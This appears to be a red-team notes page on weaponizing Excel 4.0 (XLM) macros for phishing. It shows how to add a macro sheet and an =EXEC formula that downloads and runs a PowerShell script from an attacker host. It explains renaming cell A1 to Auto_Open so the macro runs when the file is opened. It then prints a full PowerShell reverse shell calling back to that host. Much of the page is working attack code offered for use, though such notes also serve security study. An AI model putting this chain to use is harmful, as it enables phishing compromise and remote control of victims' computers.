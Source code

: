 # Phishing - Excel 4.0 macros (XLM)  
*Sources : https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ ; https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0 *    
   
A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":  
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/95-redteam-phishing-xlm-create-new.png?raw=true) 

  
We can then execute command by typing into the cells:  
```
=EXEC("powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.20:8080/shell.ps1')")
=HALT()
```

Rename the A1 cell to Auto_Open if we want the Macros to fire off once the document is opened:    
![alt text](https://github.com/Leperchedesu/Notes_Secu/blob/main/Misc_Tips/96-redteam-phishing-xlm-auto-open.png?raw=true)    
  

shell.ps1:  
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',8080);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()
```
